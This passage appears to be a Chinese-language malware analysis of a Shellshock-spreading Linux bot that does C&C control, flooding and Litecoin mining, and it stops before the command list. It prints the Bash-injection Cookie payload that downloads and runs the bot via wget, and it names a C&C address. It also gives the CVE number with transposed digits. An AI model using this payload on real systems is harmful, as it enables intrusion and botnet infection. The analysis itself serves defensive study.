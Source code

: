 ## **二.样本概述**

### **●样本来源:**

由于2014年9月24日法国某Linux爱好者公布了BASH漏洞(CVE-2014-6721),时至今日网络上已有利用该漏洞的病毒样本,我们于今日捕获到该漏洞样本,并进行了紧急分析

### **●文件信息:**

文件名:nginx

文件大小:525KB

MD5:5924bcc045bb7039f55c6ce29234e29a  

[![Bash 样本文件信息](http://image.3001.net/images/20140929/14119556446899.png%21small)](http://image.3001.net/images/20140929/14119556446899.png)

### **●行为概述:**

该漏洞样本利用Bash漏洞进行传播扩散,并使用Linux Shell命令wget下载该样本并执行,该样本执行后首先会收集系统相关的信息(CPU,网络配置等信息),紧接着样本连接到自己的服务器,通过接受服务器发送的指令,来远程控制被感染机器,进而组建僵尸网络,进行洪水攻击,以及入侵中国某厂商,而入侵之后主要是为了莱特币的挖取

## **三.样本详细分析**

### **1.样本传播方式**

该样本利用Bash漏洞进行传播,其漏洞的利用只需要简单的几行命令即可,这无疑为利用者带来了极大的便利,利用代码如下:

[![Bash样本利用代码](http://image.3001.net/images/20140929/14119557242937.png%21small)](http://image.3001.net/images/20140929/14119557242937.png)

而该样本通过wget将样本下载并执行,利用漏洞命令如下:

```
Cookie, ().{.:;.};.wget /tmp/besh http://X.X.X.X/nginx; chmod.777 /tmp/besh; /tmp/besh; 
```

### **2.样本行为分析**

**(1).获取计算机相关信息**

该样本启动后首先会获取计算机的相关信息,如CPU,网络配置等信息

[![Bash样本获取计算机信息](http://image.3001.net/images/20140929/14119557383644.png%21small)](http://image.3001.net/images/20140929/14119557383644.png)

**(2).接着该样本连接自己的服务器(89.238.150.154:5)**

strace附加在创建的子进程样本上监视其行为如下:

[![Bash样本连接自己的服务器](http://image.3001.net/images/20140929/14119557523092.png%21small)](http://image.3001.net/images/20140929/14119557523092.png)

但是C&C的server已经挂掉了

**(3).如果连接服务器成功,则根据服务器传来的指令,远程控制被感染机器,命令集合如下:**

